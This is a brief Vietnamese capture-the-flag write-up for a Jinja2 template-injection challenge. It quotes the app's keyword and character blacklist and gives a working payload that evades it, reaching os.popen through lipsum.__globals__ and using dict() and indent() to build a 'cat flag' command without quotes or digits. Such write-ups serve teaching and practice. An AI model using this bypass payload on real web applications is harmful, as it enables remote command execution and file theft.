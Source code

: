 # Solution


Từ file `app.py` có thể thấy đề filter `regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"`

vì vậy ta cần contruct payload sao cho không bị vướng regex expression này

final payload:
```
{{lipsum.__globals__.__getitem__(dict(os=x)|first).popen((dict(cat=x)|first)+(dict(fl=x)|first|indent((dict(bla=x)|first)|length,true))+(dict(ag=x)|first)).read()}}
```

Giải thích một tí: 

Vì đề không cho dùng `'` nên mình dùng `dict()` để thay thế: `(dict(os=x)|first) -> 'os'`

để tạo ra space thì mình dùng `indent()`, đọc thêm ở [đây](https://tedboy.github.io/jinja2/templ14.html#indent)


